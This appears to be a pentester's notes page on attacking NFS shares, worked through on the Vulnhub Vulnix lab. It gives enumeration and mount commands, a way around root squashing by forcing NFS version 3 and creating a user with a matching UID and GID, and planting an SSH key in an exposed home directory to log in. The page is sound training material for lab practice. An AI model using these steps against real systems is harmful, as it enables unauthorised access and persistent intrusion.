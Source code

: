 # 2049\_NFS

## Background

* Network File Share. 
* This is a service used so that people can access certain parts of a remote filesystem. If this is badly configured it could mean that you grant excessive access to users. 
* You mount the NFS folder onto a local folder of your machine to interact with it. If root squashing is enabled, then our ability to interact with the NFS is initially liminted.  However, if we can rollback the NFS version to \#3, then we can get around root squashing.
  * The way NFS works with permissions: to access a locally mounted share, your UID and GID need to match the ones of the shared directory on the server.  NFS version 4 doesn't show the remote UID and GID, but NFS version 3 does show this informaiton.  So, you can just create a user with the correct username, UID, and GID on the attacker box to access a locally-mounted NFS that has root squashing enabled.
* The /etc/exports file on the NFS share lists the different share volumes available for mounting to other computers as well as configuration settings like root Squashing.

## Enumeration \(Vulnhub:Vulnix\)

1. Check to see what the filesystem is sharing through this service.

   ```text
   showmount -e [IP]
   ```

   * Note that the file directory is in the first column of this input and any Access Control Listings \(ACL\) is in the second column.  Generally the ACL is either a hostname or IP address that is the only one allowed to mount the NFS.  If it is neither, then it is usually a \*, which means any IP can mount the NFS directory \(no ACL\).

2. Create a directory location to mount the NFS file system to your box.

   ```text
   mkdir -p /[file location]/nfs
   ```

3. Mount the NFS to your attacker machine at the designated NFS mounting location.

   ```text
   mount -t nfs [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
   ```

   Example

   ```text
   mount -t nfs 10.10.10.12:/home/vulnix /root/Boxes/Vulnix/Exploits/nfs -nolock
   ```

4. Try to access the NFS mount at the location you created in \#2 on your local box.  If you're unable to access this location, then the target has correctly enabled [root\_squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-securing_nfs-do_not_use_the_no_root_squash_option) so that we can't read the contents.
   * A way around this is to see if version 3 of NFS is enabled.
5. See if NFS version 3 is allowed for the NFS.

   ```text
   mount -t nfs -o vers=3 [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
   ```

6. If we can mount with NFS version 3, we should list the mounted file permissions to read the UID and GID of the system.

   ```text
   ls -ld [attacker file system NFS location from #2]
   ```

7. Create a new user on the attacker box with the UID and GID identified in \#6.

   ```text
   groupadd --gid [GID from #6] [group name]
   useradd --uid [UID from #6] --groups [group name from previous cmd] [user name]
   sudo -u [user name from above command] ls -la [attacker file system NFS location from #2]
   ```

8. If the NFS is a home directory of a user AND SSH is open on the target, then we can use our new access to the NFS to add our SSH public key to the home directory of the allowed user.  Then we can just SSH into the target with the user whose home directory is exposed through NFS where we just uploaded our SSH public key.

   ```text
   #target# mkdir [attacker file system NFS location from #2]/.ssh
   #attacker# cat ~/.ssh/id_rsa.pub | clip
   #target# cd .ssh; vim authorized_keys
   #target# copy public key into this file and save it.
   #kali#ssh -i ~/.ssh/id_rsa [user name]@[IP]
   ```

